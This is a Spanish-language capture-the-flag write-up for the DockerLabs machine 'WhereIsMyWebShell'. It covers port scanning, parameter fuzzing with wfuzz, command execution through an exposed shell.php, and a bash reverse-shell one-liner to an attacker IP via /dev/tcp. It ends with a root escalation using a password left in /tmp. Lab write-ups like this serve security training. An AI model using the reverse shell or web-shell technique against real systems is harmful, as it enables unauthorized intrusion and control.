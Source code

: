 
# Maquina WhereIsMyWebShell

https://dockerlabs.es/
https://mega.nz/file/Nf8giRID#1SuYshwSEJQnX2AxVhF_q03koiXDe4SI-p3UQhzhE30

## Desplegar el docker
![[Pasted image 20250520164610.png]]

![[Pasted image 20250520164630.png]]
TTL = 64 --> Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250520164822.png]]
Una vez `nmap` a terminado podemos ver el siguiente puerto:
- `80` (HTTP)

Vamos a visitar la pagina:
![[Pasted image 20250520164945.png]]
En ella no encontramos nada de utilidad, solo vemos al final de la pagina un secreto:
![[Pasted image 20250520165035.png]]

Vamos a aplicar el mismo metodo de `fuzzing` que en la maquina **Move** 

![[Pasted image 20250520165437.png]]
Podemos ver lo siguiente:
- /index.html
- /shell.php
- /warning.html
- /server-status

Vamos visitarlas a ver que contenido tiene:
![[Pasted image 20250520165611.png]]
![[Pasted image 20250520165638.png]]
La unica interesante se puede decir que es /warning.html, esta pagina nos indica que tenemos que mirar /shell.php

Como hemos visto arriba shell.php nos da el error 500, esto indica que el problema esta en el servidor. Ya nos dan una pista de que puede ser algun parametro, para ello podemos utlizar `wfuzz` y con un diccionario de paramentros, podemos ir proban parametro a parametro y sacar los codigos `200`

Podemos utilizar el siguiente comando:
`wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"`

`-c`	
- Muestra la salida en colores (para distinguir mejor los resultados)
`--hl=0`	
- Oculta las respuestas que tienen 0 líneas (útil para filtrar ruido)
`-t 200`	
- Usa 200 hilos concurrentes, lo que acelera el escaneo
`-w /usr/share/SecLists/...txt`	
- Wordlist a usar para el fuzzing (lista de palabras clave o directorios)
`-u "http://172.17.0.2/shell.php?FUZZ=id"`	
- URL objetivo. La palabra FUZZ es sustituida por cada palabra de la wordlist

![[Pasted image 20250520170850.png]]
Ya sabemos que con el parametro `parameter` nos devuelve un `200`
![[Pasted image 20250520170955.png]]
Lo podemos utilizar para escribir comandos.
![[Pasted image 20250520171017.png]]

Ahora nos interesa saber que user es y que id tiene:
![[Pasted image 20250520171054.png]]
![[Pasted image 20250520171110.png]]

Y utilizamos la misma tecnica que en **-Pn**, nos ponemos a la escucha con `netcat` en el puerto `443` y de parameter `bash -c "bash -i >%26 /dev/tcp/192.168.109.144/443 0>%261"`

`bash -c "..."`	
- Ejecuta el comando que está dentro de las comillas en una nueva instancia de bash
``bash -i``	
- Inicia una shell interactiva
`& /dev/tcp/192.168.10.150/443`	
- Redirige la salida estándar a un socket TCP abierto hacia la IP/puerto del atacante
`0>&1`	
- Redirige la entrada estándar al mismo lugar que la salida (completa la shell)

![[Pasted image 20250520171658.png]]
![[Pasted image 20250520171718.png]]

Por ultimo nos falta hacer la escalada de privilegios y hacernos con el control total del servidor.

Como ya nos han dado una pista desde el principio, tenemos un regalo en la carpeta /tmp
![[Pasted image 20250520171812.png]]
![[Pasted image 20250520171831.png]]
Pues ya tenemos la contraseña del root, si cambiamos con `su root` e introducimos las password que nos acaban de dar ya tenemos acceso como `root`

![[Pasted image 20250520172002.png]]



